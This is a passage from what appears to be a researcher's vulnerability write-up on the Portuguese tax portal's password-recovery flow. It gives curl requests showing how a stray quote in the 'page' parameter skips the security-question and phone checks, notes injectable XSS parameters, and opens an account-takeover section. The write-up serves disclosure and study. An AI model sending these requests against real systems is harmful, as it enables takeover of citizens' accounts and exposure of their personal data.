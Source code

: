 When submitting the above form, the following request is sent:

``` shell
curl -X POST \
  https://www.acesso.gov.pt/unauthed/inserirCodigoForm \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=NIF&partID=PFAP&recoveryMode=sms&phone=PHONE_NUMBER&page=recoverPassword&questionID=QUESTION_ID&answer=QUESTION_ANSWER&_csrf=VALID_XSRF_TOKEN'
```

After messing around with the request, I found that by adding random characters to the `page` parameter, it wouldn't validate the security question or the phone number and jump straight into the next step (Wild bonus XSS appears: the parameters `answer` and `phone` are also injectable).

One example of such request is:

``` shell
curl -X POST \
  https://www.acesso.gov.pt/unauthed/inserirCodigoForm \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=NIF&partID=PFAP&recoveryMode=sms&page=recoverPassword"&_csrf=VALID_XSRF_TOKEN'
```

Notice the quote at the end of the parameter. This seems to trigger some state mutation that skips the data checks. Any value that isn't `recoverPassword` will work. I'm willing to guess this is a case of not following the "Fail securely" principle.

Not only did we bypass the security question, but we also managed to get all digits of the associated phone number, readily displayed in the next step.

{% include image.html path="finance-tax-portal-2/full-phone.png"
   alt="Phone number associated with provided NIF." caption-no="6" caption="Phone number associated with provided NIF."
%}


## Arbitrary Account Takeover via NIF

The final flaw is the worst of the bunch. Essentially, it allows an attacker to change the password of any account knowing just its NIF.

If we complete the previous recovery steps with our own NIF, we will get back to the page that asks for the SMS code that was sent to our phone number. Entering those 6 digits and submitting the form will get us to the final step.

The submit request is:

``` shell
curl -X POST \
  https://www.acesso.gov.pt/alterarSenhaForm \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: autentica_JSessionID=VALID_SESSION' \
  -d 'nif=NIF&partID=PFAP&smsCode=SMS_CODE&phone=PHONE&page=insertCode&_csrf=VALID_XSRF_TOKEN'
```

